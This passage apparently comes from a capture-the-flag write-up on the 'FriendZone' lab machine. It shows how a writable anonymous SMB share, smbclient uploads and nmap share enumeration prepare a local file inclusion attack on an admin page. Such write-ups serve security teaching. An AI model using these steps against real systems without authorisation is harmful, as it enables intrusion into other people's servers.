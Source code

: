 The page seems to be asking for URL parameters image_id and pagename. Let's find out what happens here when we pass the default parameters suggested by the page:

<img src="../figs/fz3.png" alt="inside calls from dashboard">

It seems the page is able to display another page that resides server-side if we pass it under `pagename`. This does not help much, however, we might be able to upload a test page to some of the SMB shares and access it with LFI technique. Acessing the Development share with `smbclient`, we see that we are able to upload files into it:

```bash
smb: \> put creds.txt
putting file creds.txt as \creds.txt (0.1 kb/s) (average 0.1 kb/s)
smb: \> dir
  .                                   D        0  Thu Jan 18 20:28:52 2024
  ..                                  D        0  Tue Sep 13 14:56:24 2022
  creds.txt                           A       57  Thu Jan 18 20:28:53 2024
```

However, we need to find the path to this file in order to display it under the admin dashboard. To do so, we will be using Nmap again:

```bash
$ nmap --script smb-enum-shares.nse 10.129.35.124 -p 445
Starting Nmap 7.94 ( https://nmap.org ) at 2024-01-18 17:27 UTC
Stats: 0:00:34 elapsed; 0 hosts completed (1 up), 1 undergoing Script Scan
NSE Timing: About 0.00% done
Nmap scan report for friendzone.red (10.129.35.124)
Host is up (0.15s latency).

PORT    STATE SERVICE
445/tcp open  microsoft-ds

Host script results:
| smb-enum-shares: 
|   account_used: guest
|   \\10.129.35.124\Development: 
|     Type: STYPE_DISKTREE
|     Comment: FriendZone Samba Server Files
|     Users: 0
|     Max Users: <unlimited>
|     Path: C:\etc\Development
|     Anonymous access: READ/WRITE
|     Current user access: READ/WRITE
[...snip...]
```
